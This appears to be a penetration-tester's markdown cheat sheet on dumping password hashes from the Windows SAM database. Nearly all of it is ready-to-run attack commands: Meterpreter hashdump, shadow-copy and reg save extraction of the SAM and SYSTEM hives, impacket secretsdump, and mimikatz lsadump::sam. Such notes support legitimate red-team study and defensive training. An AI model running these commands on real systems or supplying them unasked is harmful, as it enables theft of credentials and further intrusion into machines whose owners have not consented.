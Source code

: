 #msf #wmi #vssadmin #reg #mimikatz #impacket
# SAM Database
- Local database of local users and their credentials. 
- Cannot be read by any user while windows is running.
- To dump credentials from the SAM database, SYSTEM is also required. [Credentials](../AD%20Concepts/Credentials.md)
### Metasploit
- Metasploit's `hashdump` can be used to dump the SAM database.
- Requires administrative privileges.
```
meterpreter > hashdump
```
### Fetching SAM and SYSTEM using Volume shadow copy
- This can be used to fetch SAM and SYSTEM database by creating a shadow copy of the windows installation.
- Requires administrative privileges.
- Using WMI to call the shadow copy function
```powershell
# Create a shadow copy of the C Drive
wmic shadowcopy call create Volume='C:\'
# Verify creation
vssadmin list shadows
# "Shadow Copy Volume" property has the location of the shadow copy 
# SAM and SYSTEM can be copied from this path
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\sam C:\users\Administrator\Desktop\sam
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\system32\config\system C:\users\Administrator\Desktop\system
```
### Fetching SAM and SYSTEM from Registry
- Registry can be used to fetch the SAM and SYSTEM hives.
- Requires administrative privileges.
```powershell
reg save HKLM\sam C:\Users\Administrator\sam-hive
reg save HKLM\system C:\Users\Administrator\system-hive
```
### Dumping SAM using impacket
- secretsdump.py can be used to dump the sam database
```bash
./secretsdump.py -sam sam-hive -system system-hive LOCAL
```
### Mimikatz
- Mimikatz can be used to dump SAM database directory or from the SAM and SYSTEM hives.
```powershell
# dump sam database online
privilege::debug
token::elevate
lsadump::sam
# or via saved sam and system files/registry hives
lsadump::sam /system:system.hiv /sam:sam.hiv
```
